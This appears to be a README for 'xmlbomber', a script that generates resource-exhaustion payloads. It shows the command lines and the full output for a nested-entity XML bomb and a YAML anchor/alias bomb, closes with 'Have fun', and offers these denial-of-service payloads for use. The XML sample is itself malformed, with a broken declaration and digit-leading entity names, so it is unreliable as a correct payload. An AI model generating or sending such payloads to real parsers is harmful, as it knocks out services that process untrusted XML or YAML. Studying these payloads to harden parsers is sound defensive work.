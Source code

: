 ***

<h1 align="center">
	<b>xmlbomber</b>
</h1>
<h3 align="center">
	<i>script to create a XML or YAML bomb</i>
</h3>

Example:  
``` 
$ xmlbomber.py -e 7 -r 12 -n "hi" -c "boom" xml
```
```xml
<?xml version="1.0">
<!DOCTYPE hi [
  <!ENTITY 0 "boom">
  <!ENTITY 1 "&0; &0; &0; &0; &0; &0; &0; &0; &0; &0; &0; &0;">
  <!ENTITY 2 "&1; &1; &1; &1; &1; &1; &1; &1; &1; &1; &1; &1;">
  <!ENTITY 3 "&2; &2; &2; &2; &2; &2; &2; &2; &2; &2; &2; &2;">
  <!ENTITY 4 "&3; &3; &3; &3; &3; &3; &3; &3; &3; &3; &3; &3;">
  <!ENTITY 5 "&4; &4; &4; &4; &4; &4; &4; &4; &4; &4; &4; &4;">
  <!ENTITY 6 "&5; &5; &5; &5; &5; &5; &5; &5; &5; &5; &5; &5;">
  <!ENTITY 7 "&6; &6; &6; &6; &6; &6; &6; &6; &6; &6; &6; &6;">
  <!ENTITY start "&7;">
]>
<hi>&start;</hi>
```
***
```
$ xmlbomber.py -e 5 -r 7 -c "boom" yaml
```
```yaml
0: &0 ["boom", "boom", "boom", "boom", "boom", "boom", "boom"]
1: &1 [*0, *0, *0, *0, *0, *0, *0]
2: &2 [*1, *1, *1, *1, *1, *1, *1]
3: &3 [*2, *2, *2, *2, *2, *2, *2]
4: &4 [*3, *3, *3, *3, *3, *3, *3]
5: &5 [*4, *4, *4, *4, *4, *4, *4]

```

### Have fun
